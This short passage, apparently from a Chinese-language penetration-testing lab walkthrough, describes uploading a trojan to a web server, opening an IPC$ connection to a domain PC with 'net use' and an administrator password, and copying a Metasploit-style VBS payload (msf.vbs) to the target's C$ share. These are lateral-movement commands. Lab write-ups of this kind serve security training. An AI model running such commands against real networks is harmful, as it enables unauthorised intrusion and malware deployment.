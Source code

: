 上传木马到WEB上

![img](assets/1660662812536-7225ae14-0a23-4d13-8e44-64b773280a2c.png)

与PC建立ipc连接

net use \\10.10.10.201\ipc$ "1qaz@WSX" /user:administrator@de1ay.com

![img](assets/1660661378817-a165bd37-1c4c-48db-8246-190913e243c5.png)

将木马复制到PC

copy msf.vbs \\10.10.10.201\c$
